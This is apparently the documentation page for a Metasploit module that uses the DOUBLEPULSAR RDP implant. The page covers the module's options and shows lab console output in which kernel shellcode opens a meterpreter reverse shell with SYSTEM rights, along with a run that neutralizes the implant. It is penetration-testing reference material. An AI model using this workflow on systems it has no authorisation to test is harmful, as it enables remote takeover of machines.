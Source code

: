 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant, the
`Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module functionality.
Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into. Defaults
to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf5 exploit(windows/rdp/rdp_doublepulsar_rce) >
```
